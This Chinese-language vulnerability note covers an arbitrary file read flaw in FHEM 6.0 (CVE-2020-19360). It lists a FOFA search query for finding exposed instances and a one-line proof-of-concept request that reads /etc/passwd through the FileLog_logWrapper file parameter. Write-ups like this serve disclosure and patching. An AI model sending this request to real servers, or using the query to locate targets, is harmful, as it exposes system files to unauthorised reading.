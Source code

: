 # Fhem FileLog_logWrapper 任意文件读取漏洞 CVE-2020-19360

## 漏洞描述

FHEM在6.0版本中存在文件包含漏洞，该漏洞源于允许FHEM/FileLog_logWrapper file参数允许攻击者包含文件，攻击者可以利用此漏洞导致敏感信息泄露。

## 漏洞影响

<a-checkbox checked>FHEM 6.0

## FOFA

<a-checkbox checked>title=="Home, Sweet Home"</a-checkbox></br>

## 漏洞复现

主页面

![img](../../../.vuepress/public/img/1637586979107-0847f305-1296-43e5-8094-f662c312cc7e.png)

验证POC

```python
/fhem/FileLog_logWrapper?dev=Logfile&file=%2fetc%2fpasswd&type=text
```

![img](../../../.vuepress/public/img/1637587030568-032b48b0-d999-4259-8651-e4e96400eb54.png)